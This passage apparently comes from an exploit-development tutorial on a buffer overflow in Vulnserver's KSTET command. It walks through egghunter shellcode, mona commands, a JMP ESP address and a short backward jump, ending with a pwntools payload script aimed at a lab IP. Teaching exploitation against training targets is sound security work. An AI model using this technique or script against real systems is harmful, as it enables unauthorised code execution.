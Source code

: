 To give a quick background about `egghunter`, it is a `short shellcode` that locates a specific pattern (`the egg`) in the memory. Basically, it locates and executes the shellcode that we injected beforehand. You can read more about this `egghunters` on this [page](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/).

We can easily generate an egghunter shellcode with the help of `mona` by using `!mona egg -t arzy`.

![](https://cdn-images-1.medium.com/max/800/1*uP4_TTFb6yf0jrqxePIHsA.png){: .align-center}

Now, we need to think of a way to execute this egghunter shellcode. The length of this shellcode is `32 bytes,` and we have a limited space for our payload. We can only place this shellcode `in the buffer before our instruction pointer control`.

Our stage 2 payload structure should look like this.

```
payload = <buffer with egghunter shellcode> + <instruction pointer control>
```

Now, we need to jump backwards to our `egghunter shellcode` by using `JMP ESP` and `RELATIVE SHORT JMP.`

> I have introduced `JMP ESP` and `RELATIVE SHORT JMP` from my previous posts, you may read about them from these posts.  
> - [JMP ESP](/exploitation/windows/windows-exploitation-vulnserver-trun-command/)
> - [RELATIVE SHORT JMP](/exploitation/windows/windows-exploitation-vulnserver-gmon-command/)

Let’s check if there is an available `JMP ESP` instruction that we can use with the help of `mona`. We can simply use `!mona jmp -r esp` to get a list of `JMP ESP` instructions.

![](https://cdn-images-1.medium.com/max/800/1*T5ObFTveVw9TISUJDHZFMQ.png){: .align-center}

We can use `0x625011af` as our `JMP ESP` instruction.

Next, we need to construct our `RELATIVE SHORT JMP` instruction. Since our egghunter is just `32 bytes` and our buffer length is `70 bytes`, we can try to use `JMP -50`.

![](https://cdn-images-1.medium.com/max/800/1*0LKx1L2wCDpb9EsC2neO5w.png){: .align-center}

Let’s reconstruct our payload structure, it should now look like this.

```
payload = <buffer with egghunter> + <jmp esp> + <jmp -50>
```

Combining everything above, our payload script should now look like this. Let’s use “`\xcc`” as our egghunter placeholder.

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

payload = ""  
payload += "KSTET "  
payload += "A"*(70 - 50 + 2) # -50 for egghunter buffer  
payload += "\xcc"*32 # egghunter placeholder  
payload += "B"*(48 - 32) # 48 (buffer for egghunter - egghunter length)  
payload += p32(0x625011af) # JMP ESP  
payload += "\xeb\xce\x90\x90" # JMP -50

r.sendline(payload)  
r.close()
```
